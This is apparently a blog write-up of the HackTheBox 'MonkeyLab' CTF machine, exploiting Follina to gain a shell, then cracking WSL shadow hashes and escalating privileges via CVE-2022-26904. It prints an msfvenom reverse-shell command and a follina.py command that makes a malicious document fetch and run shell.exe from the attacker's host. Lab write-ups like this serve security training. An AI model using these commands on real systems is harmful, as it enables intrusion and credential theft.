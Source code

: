 ```yaml
---
layout: posts
title: "HTB Business - MonkeyLab"
tags: writeup, hackthebox, ctf
---
```


This is an "easy" machine from [HackTheBox Business CTF](https://www.hackthebox.com/events/htb-business-ctf-2022).

Enumeration:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/1.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/2.png)
{: refdef}

<p style='text-align: justify;'>
So looking at the port 8080 we can see a page that is looking for documents to scan. This gave us a first impression that the windows machine could be vulnerable to a recent vulnerability named follina. We are going to use the following script to get a foothold: https://github.com/chvancooten/follina.py

Clone the repo, go inside it, create a reverse shell and place it under the www directory within the script folder:

msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.83 lport=445 -f exe -o shell.exe

</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/3.png)
{: refdef}

<p style='text-align: justify;'>
Ignore the other binaries, they are there because of enumeration inside the machine.

Set up a listener on port 445 and execute the following command on the script root folder:

python follina.py -t docx -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c mkdir C:\temp && curl http://10.10.14.83:8080/shell.exe -o C:\temp\shell.exe && C:\temp\shell.exe'" -u 10.10.14.83 -P 8080

This script will create a docx document that we are going to upload to the service listening on port 8080:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/4.png)
{: refdef}

<p style='text-align: justify;'>
After a minute or two we get a callback to our server running on port 8080 to retrieve the shell executable and a few seconds later we get the callback on our listener on port 445:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/5.png)
{: refdef}

<p style='text-align: justify;'>
So after enumerating for a while and running winPeas.exe i found two interesting things. First we got the credentials for the current user (they are at the AutoLogon registry):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/6.png)
{: refdef}

<p style='text-align: justify;'>
Next, i discover that the current user has wsl.exe installed on their session. Veryfing his privileges, we can see that he can use every command as sudo:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/7.png)
{: refdef}

Knowing this, we can extract shadow and passwd files:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/8.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/9.png)
{: refdef}

<p style='text-align: justify;'>
We crack the files using unshadow (to create the john hash) and john. We obtain the following credentials:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/10.png)
{: refdef}

<p style='text-align: justify;'>
You can verify that the credentials are valid (on the windows machine) using a lot of techiniques but since i wanted to see what the user could access, i used runasCS.exe to get a shell as the Infinity user:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/11.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/12.png)
{: refdef}

<p style='text-align: justify;'>
Since we have two valid users, we can use CVE-2022-26904 to escalate privileges. Metasploit has a module to explore this. You need credentials of one user (Infinity) and a meterpreter session from another user (Anomaly):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/13.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/14.png)
{: refdef}

We are now ready to use the msfconsole module:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/15.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/16.png)
{: refdef}

